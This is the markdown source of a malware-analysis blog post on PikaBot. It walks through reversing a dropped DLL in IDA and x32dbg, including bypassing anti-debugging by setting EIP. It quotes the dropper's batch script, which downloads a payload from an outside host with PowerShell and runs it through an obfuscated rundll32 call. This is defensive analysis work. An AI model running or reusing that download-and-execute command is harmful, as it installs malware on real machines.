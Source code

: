 +++
title = "Analyzing Beep Malware [PikaBot]"
draft = false
tags = ["beep-malware","PikaBot"]
categories = ["Malware"]
ShowToc = true
author = ["connar","r4sti"]
+++

## Intro
In continuation from my previous [post]("https://connar.github.io/posts/onenote/"), I will now be analyzing the dropped ```big.dll```. For this purpose, I employed my friend and mentor r4sti to help me out in the analysis of this malicious dll.

## Analyzing big.dll - Combining IDA and x32dbg
Recall that in our previous post, when the dll was being dropped, a specific exported function was run:
```cmd
@echo off

powershell Invoke-WebRequest -URI https://aradcapital.com/MpD8Yk/00.gif -OutFile C:\programdata\big.jpg
call ru%1l32 C:\programdata\big.jpg,DllRegisterServer

exit
```
So, let's open the dll in IDA and view the specific function:  

![](/posts/beepMalware/beep1.png)  

Let's also open the dll in x32dbg and having it side by side with IDA. We can dynamically analyze a malware with x32dbg while also statically comparing it with IDA.

![](/posts/beepMalware/beep2.png)  

The thing is, if we try and run the dll in x32dbg, it will keep exiting due to many anti-debugging checks. We can skip all these and land to ```DllRegisterServer``` by just changing the ```EIP``` to that part of the code and continue execution from there. Do to so, we need to first find the ```DllRegisterServer``` function and then set the ```EIP``` there:  

![](/posts/beepMalware/beep3.png)  

Here we used ```CTRL+G``` to find the location of the function. After we have landed on the function, just right click-->Set EIP Here:  

![](/posts/beepMalware/beep4.png)  

Since we are using both IDA and x32dbg, it would be a good thing to have the same addresses in both applications. To do so, I got the base address of the PE by going to x32dbg-->Memory Map and copying the address where the ```.text``` section starts:  

![](/posts/beepMalware/beep5.png)  
